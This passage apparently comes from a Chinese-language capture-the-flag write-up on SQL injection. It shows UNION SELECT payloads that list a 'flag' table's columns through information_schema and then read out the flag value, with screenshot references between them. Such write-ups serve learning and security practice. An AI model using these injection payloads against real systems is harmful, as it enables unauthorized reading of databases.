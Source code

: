 ![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x8868;&#x6240;&#x5728;&#x6570;&#x636E;&#x5E93;&#x7684;&#x6240;&#x6709;&#x8868;](../.gitbook/assets/5_5%20%281%29.png)

获取flag表所有列

```sql
  union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag'
```

![&#x83B7;&#x53D6;flag&#x8868;&#x6240;&#x6709;&#x5217;](../.gitbook/assets/5_6%20%281%29.png)

获取flag表中某属性的值

```sql
  union select 1,flag,3,4 from flag
```
